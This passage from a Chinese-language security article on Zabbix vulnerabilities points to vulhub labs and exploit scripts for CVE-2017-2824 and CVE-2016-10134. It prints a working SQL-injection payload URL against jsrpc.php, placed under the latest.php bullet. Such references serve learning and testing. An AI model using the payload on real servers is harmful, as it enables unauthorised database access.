 漏洞靶场及利用脚本：[Zabbix Server trapper 命令注入漏洞（CVE-2017-2824）](https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2017-2824)

### 5\. CVE-2016-10134 SQL 注入

CVE-2016-10134 SQL 注入漏洞已知有两个注入点：

-   latest.php，需登录，可使用未关闭的 Guest 访客账号。

```plain
/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)
```

![-w1192](assets/1711961932-7f7833cecb587e5a11e85cb6bce5a7dd.jpg)

-   jsrpc.php，无需登录即可利用。

利用脚本：[https://github.com/RicterZ/zabbixPwn](https://github.com/RicterZ/zabbixPwn)  
![-w676](assets/1711961932-cb8620c3c2bbfb10598b154fe0e47a4d.jpg)

漏洞靶场及利用脚本：[zabbix latest.php SQL 注入漏洞（CVE-2016-10134）](https://github.com/vulhub/vulhub/tree/master/zabbix/CVE-2016-10134)
